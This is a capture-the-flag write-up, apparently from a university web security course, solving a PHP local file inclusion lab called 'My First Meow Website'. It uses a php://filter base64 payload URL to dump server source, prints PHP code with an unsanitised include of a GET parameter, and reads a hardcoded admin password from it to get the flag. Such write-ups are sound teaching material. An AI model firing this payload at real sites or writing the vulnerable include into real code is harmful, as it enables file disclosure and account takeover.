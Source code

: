 ```yaml
---
title: Simple Web 0x08(Lab - My First Meow Website)
tags: [NTUSTWS, CTF, Web]

category: "Security/Course/NTUST WS/LFI"
---
```


# Simple Web 0x08(Lab - My First Meow Website)
<!-- more -->
###### tags: `NTUSTWS` `CTF` `Web`
Challenge: http://h4ck3r.quest:8400/
Target: Login as Admin

## Background
[PHP 偽協議 (一) ](https://ithelp.ithome.com.tw/articles/10245020)
[Web Security 0x1](https://youtu.be/_hasOTGximc?t=2855)

## Exploit
1. Observe
According to the URL, `http://h4ck3r.quest:8400/?page=inc/home`, it might have `LFI` problem.
2. Use `php://filter` to read page
    `http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=inc/home`
    :::spoiler page source code
    ```php=
    <!DOCTYPE html>
    <html lang="en">

    <head>
        <meta charset="UTF-8">
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Meow</title>
        <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bulma@0.9.2/css/bulma.min.css">
    </head>

    <body>
        <nav class="navbar is-dark" role="navigation" aria-label="main navigation">
            <div class="navbar-brand">
                <a class="navbar-item" href="/?page=inc/home">🐱</a>
            </div>

            <div id="navbarBasicExample" class="navbar-menu">
                <div class="navbar-start">
                    <a class="navbar-item" href="/?page=inc/home">
                        Home
                    </a>
                    <a class="navbar-item" href="/?page=inc/about">
                        About
                    </a>
                    <a class="navbar-item" href="/admin.php">
                        Admin
                    </a>
                </div>
            </div>
        </nav>

        <div class="container" style="margin-top: 1em;">
            <?php
            if (isset($_GET['page']))
                include($_GET['page'] . ".php");
            else
                include("inc/home.php");
            ?>
        </div>
    </body>

    </html>
    ```
    :::
3. Observe page source code
We know that `admin.php` is under `/` directory.
`http://h4ck3r.quest:8400/?page=php://filter/convert.base64-encode/resource=admin`
    :::spoiler admin source code
    ```php=
    <h1>Admin Panel</h1>
    <form>
        <input type="text" name="username" value="admin">
        <input type="password" name="password">
        <input type="submit" value="Submit">
    </form>

    <?php
    $admin_account = array("username" => "admin", "password" => "kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ");
    if (
        isset($_GET['username']) && isset($_GET['password']) &&
        $_GET['username'] === $admin_account['username'] && $_GET['password'] === $admin_account['password']
    ) {
        echo "<h1>LOGIN SUCCESS!</h1><p>".getenv('FLAG')."</p>";
    }

    ?>
    ```
    :::
4. Then we get admin password is: `kqqPFObwxU8HYo8E5QgNLhdOxvZmtPhyBCyDxCwpvAQ`. Then we got flag!!!